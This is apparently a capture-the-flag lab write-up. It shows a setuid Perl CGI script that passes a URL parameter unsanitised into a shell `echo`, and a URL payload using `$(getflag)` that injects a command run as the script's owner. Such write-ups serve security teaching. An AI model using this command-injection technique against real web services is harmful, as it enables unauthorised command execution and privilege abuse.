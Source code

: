 ## level04 writeup

When logging in as user level04, we see a perl script with the suid flag. Which means when this script is executed its going to be executed as the owner, who is flag04.
We want to see what's in this perl file.
```shell
$ ls -l
...
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
...
$ cat level04.pl
```
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
We see this script might run on the 4747 port. So we can check in our browser. \
Indeed we have an apache server serving this file on this port. The script loads an `x` param from the url. \
Also the `print` function calls `echo` with the `x` parameter value. As we said before, the script will be executed as flag04. \
With this, we can execute whatever command we want by using a subshell. \
So we can do `http://VM_IP:4747?x='$(getflag)'` and the flag is printed on the page.
